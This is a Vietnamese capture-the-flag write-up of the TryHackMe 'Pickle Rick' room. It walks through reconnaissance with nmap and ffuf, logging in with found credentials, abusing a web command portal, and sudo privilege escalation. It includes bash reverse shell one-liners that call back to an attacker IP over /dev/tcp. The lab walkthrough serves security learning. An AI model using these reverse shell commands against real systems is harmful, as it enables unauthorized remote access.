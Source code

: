 # [THM] Pickle Rick write-up

- IP: 10.10.226.237

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.226.237

<p align="center">
  <img src="./img/nmap-scan.png" alt="robots.txt">
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Truy cập với port 80 xem có giao diện như bên dưới

![Web interface](./img/web-interface.png)

Source code của giao diện trên đã thấy điều khả nghi đó là username 

![Web source](./img/web-source.png)

Tiếp tục scan thư mục ẩn với công cụ ffuf để xem có gì khai thác được với username bên trên không

> ffuf -u "http://10.10.226.237/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.phtml,.txt

<p align="center">
  <img src="./img/ffuf-scan.png" alt="ffuf scan">
</p>

Nhận thấy có tệp `robots.txt`,`denied.php `,`login.php`, `portal.php` và thư mục `/assets` là thư mục ẩn, truy cập các tệp và thư mục đó xem sao

`robots.txt` có điều đặc biệt có thể là mật khẩu của user trên chăng?

<p align="center">
  <img src="./img/robots-txt.png" alt="robots.txt">
</p>

## Exploit
Tiếp đến ta sẽ truy cập tới `/login.php` 
<p align="center">
    <img src="./img/login-interface.png" alt="Login interface">
</p>

Sau khi truy cập thì hiển thị ra giao diện bên dưới, sử dụng những thông tin đã thu thập được ta sẽ đăng nhập. Đăng nhập thành công đã được redirect sang `/portal.php`
<p align="center">
    <img src="./img/portal-page.png" alt="Portal interface">
</p>

Có vẻ như input này nhập được command và thực thi được 1 số câu lệnh, thử nhập một số câu lệnh như `ls`, `whoami` đã nhận được kết quả như hình bên dưới
<p align="center">
    <img src="./img/ls-command.png" alt="ls command">
</p>
<p align="center">
    <img src="./img/whoami-command.png" alt="whoami command">
</p>

Nhưng có chút vấn đề là khi ta muốn `cat` một số file trong đây thì đều không được
<p align="center">
    <img src="./img/cat-command.png" alt="cat command">
</p>

Vậy thì ta sẽ thử kiểm tra xem trên server có khả dụng với `bash` không với câu lệnh `which bash`
<p align="center">
    <img src="./img/bash-command.png" alt="bash command">
</p>

Thật tuyệt khi trên server khả dụng đối với câu lệnh bash, ta sẽ nghĩ ngay tới `reverse shell` để khai thác. Ta sẽ tạo reverse shell trên [revshells.com](https://www.revshells.com/)

<p align="center">
    <img src="./img/reverse-shell.png" alt="reverse shell">
</p>

Tạo **Netcad listener** trên máy attacker lắng nghe port 1234 và nhập reverse shell vào ô input
```sh
bash -i >& /dev/tcp/10.21.113.26/1234 0>&1
```
Nhưng sau khi chạy câu lệnh trên ta vẫn không nhận được shell vậy thì ta sẽ thử đặt nó trong 1 **subshell** xem có thành công hay không
```sh
bash -c 'bash -i >& /dev/tcp/10.21.113.26/1234 0>&1'
```

Ta đã nhận được user shell sau khi chạy câu lệnh trên
<p align="center">
    <img src="./img/user-shell.png" alt="User shell">
</p>

## First ingredient
Sau khi chiếm được user shell ta đã tìm kiếm được file `Sup3rS3cretPickl3Ingred.txt` chứa nguyên liệu đầu tiên mà Rick cần, và file `clue.txt` đã cho ta thông tin để tìm kiếm các file khác trong hệ thống để tìm được những nguyên liệu tiếp theo
<p align="center">
    <img src="./img/question-1.png" alt="First ingredient">
</p>

## Second ingredient
Tìm kiếm và nhận ra nguyên liệu thứ 2 nằm trong file `/home/rick/second ingredients`
<p align="center">
    <img src="./img/question-2.png" alt="Second ingredient">
</p>

## Privilege escalation
Sau một hồi tìm kiếm khả năng cao là sẽ cần leo thang đặc quyền để có thể truy cập vào thư mục `root`. Kiểm tra xem user hiện tại có tác vụ nào chạy với quyền root không ta sử dụng câu lệnh `sudo -l`
<p align="center">
    <img src="./img/sudo-l.png" alt="Sudo -l">
</p>

Tuyệt vời user hiện tại có quyền chạy bất kì tác vụ nào với quyền `root`

## Last ingredient
Không nằm ngoài dự đoán nguyên liệu cuối cùng đã được tìm thấy trong thư mục `/root`
<p align="center">
    <img src="./img/question-3.png" alt="Last ingredient">
</p>


DONE










